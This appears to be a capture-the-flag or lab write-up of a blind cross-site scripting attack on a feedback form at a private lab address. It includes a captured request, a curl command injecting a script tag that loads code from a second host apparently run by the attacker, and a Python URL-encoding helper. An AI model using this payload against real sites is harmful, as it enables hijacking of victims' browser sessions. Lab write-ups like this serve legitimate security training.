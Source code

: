 # id: 10.10.59.111

# capture the post message

http://10.10.59.111:8080/submit_feedback
![](https://velog.velcdn.com/images/agnusdei1207/post/e0dc890b-369c-4bb8-9cad-4ceda9ab9ea1/image.png)

```
POST /submit_feedback HTTP/1.1
Host: 10.10.59.111:8080
Content-Length: 14
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.59.111:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.59.111:8080/submit_feedback
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

feedback=asdad

# Blind XSS check

curl -X POST http://10.10.59.111:8080/submit_feedback -H "Content-Type: application/x-www-form-urlencoded" -H "Origin: http://10.10.59.111:8080" -H "Referer: http://10.10.59.111:8080/submit_feedback" --data "feedback=<script src="http://10.8.136.212:8000/"></script>"

# setting payload

```python
import urllib.parse

def url_encode(text: str) -> str:
    return urllib.parse.quote(text)

def url_decode(encoded_text: str) -> str:
    return urllib.parse.unquote(encoded_text)

original = "<script src="http://10.8.136.212:8000/"></script>"
encoded = url_encode(original)
decoded = url_decode(encoded)

print("original:", original)
print("encoded:", encoded)
print("decoded:", decoded)

```

# success the blind XSS

![](https://velog.velcdn.com/images/agnusdei1207/post/b5252105-4522-428d-a133-2239d228ac67/image.png)
